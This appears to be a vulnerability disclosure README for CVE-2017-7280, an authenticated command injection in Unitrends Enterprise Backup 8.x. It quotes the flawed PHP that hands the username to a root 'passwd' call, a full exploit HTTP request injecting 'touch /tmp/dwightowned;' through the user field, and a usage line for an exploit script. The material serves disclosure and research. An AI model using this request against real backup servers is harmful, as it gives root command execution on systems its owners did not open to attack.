

# CVE-2017-7280: Unitrends Enterprise Backup Solution Command Execution

## Information
**Description:** Allows authenticated command execution via command injection.  
**Versions Affected:** 8.X and below.  
**Researcher:** Dwight Hohnstein (https://twitter.com/djhohnstein)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/remote-code-execution-bug-hunting-chapter-2/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2017-7280  

## Proof-of-Concept Exploit
### Description
Setting the username as a system command like sleep 20 will execute when the OS goes to change password.

Vulnerable Code /var/www/html/recoveryconsole/system/password_change.php:
```
function change_system_password($user, $current_root_pass, $new_user_pass, &$msg) { $status = -1; $res = trim(shell_exec('echo $UID')); if ($res == 0) { // running as root, no sudo needed for passwd command $handle = popen("passwd --stdin $user", 'w'); fwrite($handle, "$new_user_pass\n"); $status = pclose($handle);
```

Vulnerable Request:
```
POST /recoveryconsole/bpl/password.php?type=list&rx=8898009&ver=9.0.0&gcv=0 HTTP/1.1 Host: 10.10.10.89 Connection: close Content-Length: 152 Origin: https://10.10.10.89 X-Requested-With: ShockwaveFlash/23.0.0.185 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36 Content-Type: application/x-www-form-urlencoded Accept: / DNT: 1 Referer: https://10.10.10.89/recoveryconsole/bpria/bin/bpria.swf?vsn=9.0.0 Accept-Encoding: gzip, deflate, br Accept-Language: en-US,en;q=0.8 Cookie: initial_tab_config=1; initial_tab_recover=2; SnapABugHistory=1#; _ga=GA1.4.400758861.1476511068; initial_tab_jobs=3; SnapABugRef=https%3A%2F%2F10.10.10.89%2Frecoveryconsole%2F%20; SnapABugVisit=12#1476513198

newpassword=unitrends2&auth=djA6ODkxNTJjYzYtNzdkYi00N2ZlLWFiMzEtNzJmMGVlZmU1MjkyOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA%3D%3D&password=unitrends1&user=touch /tmp/dwightowned;  
```
### Usage/Exploitation
`python CVE-2017-7280.py -u TARGET -U USER -P PASSWORD`  

### Screenshot
